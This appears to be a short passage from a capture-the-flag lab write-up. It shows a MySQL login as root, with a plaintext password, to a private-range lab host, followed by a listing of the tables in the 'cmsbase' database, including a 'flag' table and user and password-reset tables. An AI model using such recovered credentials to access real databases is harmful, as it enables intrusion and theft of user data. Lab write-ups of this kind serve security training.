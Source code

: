 ![](../../../.gitbook/assets/image%20%284%29.png)

```bash
# Tried:
# mysql --host=172.16.64.92 --user=root --password=x41x41x412019! --port 63306 mysql
# Working:

mysql --host=172.16.64.81 --user=root --password=x41x41x412019! --port 13306 mysql
> show databases;
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
```